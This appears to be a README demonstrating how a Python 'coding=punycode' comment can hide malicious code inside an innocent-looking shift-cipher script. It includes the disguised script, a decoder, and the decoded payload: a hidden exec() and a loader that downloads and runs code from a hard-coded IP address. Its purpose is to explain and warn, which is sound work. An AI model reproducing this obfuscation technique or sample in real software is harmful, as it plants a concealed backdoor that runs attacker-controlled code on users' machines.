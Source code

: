 # The weird code

This is a demonstration that the encoding declarations ( https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations ) of python in conjunction with punycode encoding can be used to craft malicious code snippets that look benign.



## Demonstration Code

The code: <br>
(Note: copying this code may break it as described at the bottom of `The encoding used in the code`)

```py
#They say codying is fun, but I like puns, so when I code, coding!=funnycode, but coding=punycode ... anyways, here is some nice python code :)

I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: -47415qpygaa76ea29ah9daca59abba63qeacaacc99aad01ba90babbc80bf52ba42j1lla61b70aqa632n6a49a6a40b9a19aedb39aaead4agc17j4lb81kao43bip4nlafc6b63awaf14bvobfo1b48ac55bmava93bjap79km616kt0aa689f
```


## What does it do?
Lines with comments don't matter, right? <br>
So let's look at the code without comments first:

```py
I="I"
love="love"
python="python"

print(I, love, python)

def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))
```

Up to `print(I, love, python)` it is quite obvios: <br>
We just assign three variables and print them.
In python, printing multiple values with a single call to `print` will seperate them with a space.
So we get:

```
I love python
```

Next up is the `shift_cipher` function.
As the name indicates, it takes the character code of every character of the provided string and adds the key to it.
Then, ensures that it is between `0` and `128` (some ascii character) and converts it back to a character.

if we called `shift_cipher("abz", 1)` we would get `"bc{"` (`"{"` just happens to be the next character after `"z"`).

So if we shift `"ymnx%nx%f%xjhwjy%rjxxflj&"` by `-5`, we just have to look up the characters in an ascii table and subtract `5` and look at the character we get from that.
If we were to reach negative numbers we would have to wrap around starting at `127`.
But that never happens.

So, we expect the code to print `this is a secret message!`.


## But what does it REALLY do?

See, python is weird.
Comments are not always comments.
Especially in the first two lines, you can use comments to indicate how the python interpreter should do some things.


### Encoding

One thing you can specify is the encoding (The way how characters are encoded. This is relevant for characters that are bigger than 255 and thus cannot be represented in a single byte.).
By default, python is supposed to use `utf-8` (but I'm not sure this is the case on Windows.) - the most sensible encoding to use!
But if we want something else, we can add a comment in the first line specifying a different encoding like this:

```py
# coding=utf-16
```

More specifically it can also be in the second line, if the first line is a comment.
And, the interpreter searches for the following pattern: `coding[=:]\s*([-\w.]+)` - meaning `coding` followed directly by `=` or `:`, then an arbitrary amount of whitespace characters followed by an arbitrary amount (but at least one) of `.`, `-`, or characters that match `\w` (`a-z`, `A-Z`, `0-9`, and `_`).
One important observation: The interpreter searches this pattern ANYWHERE in the line, so the line can also contain a lot of crap apart from it.


### The encoding used in the code

So if we look through the first line of the script, we can find `coding=punycode` which matches the pattern!
So we use `punycode` to encode the file?
WTF is that?

You may know that Internet domains can contain emoji characters now (e.g., `i❤️.ws` is a valid domain).
However, everything that makes up the backbones of the internet can basically only handle ascii characters.
So punycode was invented to encode arbitrary emojis etc. in ascii strings.
Here is a link to wikipedia explaining it a bit (we will cover the important parts below anyways though): https://en.wikipedia.org/wiki/Punycode
For instance, `i❤️.ws` would be encoded as `xn--i-7iq.ws`.

The important parts of punycode encoding to understand the script is:
1. it keeps ascii characters the same and doesn't touch them
2. it removes all non-ascii characters but adds information on how to add them back in at the end of the encoded file
3. to mark the beginning of where the information to add characters back in starts, it adds a `-` character just before.

So after the last `-` character, there will be information on how to insert special characters into the script.

The reason this code may not work if you copy paste it around is that changes to whitespace or newlines (which are sometimes made by text editors) matter to the punycode encoding and will break the code.


### Looking at the ACTUAL code

I don't really understand the details of the encoding, but we can decode the script using python (this script just removes the first line containing the comment and decodes the rest using punycode):

```py
import sys
print("\n".join([l for l in open(sys.argv[1], "rb")][1:]).decode("punycode"))
```

We get the following code (see `decoded.py`):

```py


I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ｅｘｅｃ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="﩮全冀充勺啕逸喙勺况况﩮逸勉勺頻勇喙頻喝啕逸辶喝逸充﨏頻墳頻難鶴充勉喙勺况充冀頻侀鶴﨧舘啕啕冀憎勤勤層嘆勉喝屮喝勉喝悔嘆勉喝卑卑憎喝器器屮勤逸響﨧郞勉勺頻辶響鶴郞勉響頻難充響頻鶴郞郞﨨ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: 
```

One other thing important in python is, that unicode characters that are letters (for example `ｅ`) are treated like their ascii counterparts (in this case `e`) for variable names.
So `ｅｘｅｃ` is the same as `exec`, but it disappears to the end of the file when encoding with punycode.

If you are new to python, `exec` basically takes a string and executes it as python code.
And `shift_cipher` no longer just decrypts the given string, but it also executes the result.
So if we give it ("encrypted") evil code, we may be in trouble.

We now also see that `secret` actually contains a whole lot of unicode characters, but what happens if we put them through `shift_cipher`?

The short answer is: Those symbols are chosen such that subtracting `5` from them does not convert them to usable code, but the `% 128` is also needed to make them useful.
With the `% 128` I can ensure that I can convert a unicode character that will be removed by punycode encoding and put at the end to any ascii character I want.
Thus, I can make that `shift_cipher` executes whatever python code I want after decrypting it without any characters in the python script changing except for the comment in the last line.

So what did I put into the string?
Let's decode it:

```py
import urllib.request as o
exec(o.urlopen("http://62.171.182.100:1337/bd").read().decode())#
```

This is bad!
The script sends a request to `http://62.171.182.100:1337/bd` and executes whatever it gets back.
So I basically can send arbitrary malicious python code and it gets executed!


## The moral of the story

Don't trust my code!
